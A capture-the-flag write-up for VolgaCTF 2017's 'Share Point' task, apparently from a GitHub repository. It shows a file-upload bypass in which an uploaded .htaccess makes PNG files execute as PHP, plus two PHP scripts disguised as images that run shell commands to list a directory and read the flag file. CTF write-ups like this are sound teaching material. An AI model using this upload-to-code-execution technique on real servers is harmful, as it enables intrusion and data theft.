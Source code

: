 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is optimal

### Solution
Regular Expression for authorization:  
`login [\w+]{4,}`  
`pass  [\w+]{8,+}`

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)

file ".htaccess":

```
AddHandler application/x-httpd-php .png
```

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)

file "ls.png":

```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```

file "cat.png":

```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_6.png)  

File with extension "php" not download in server:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
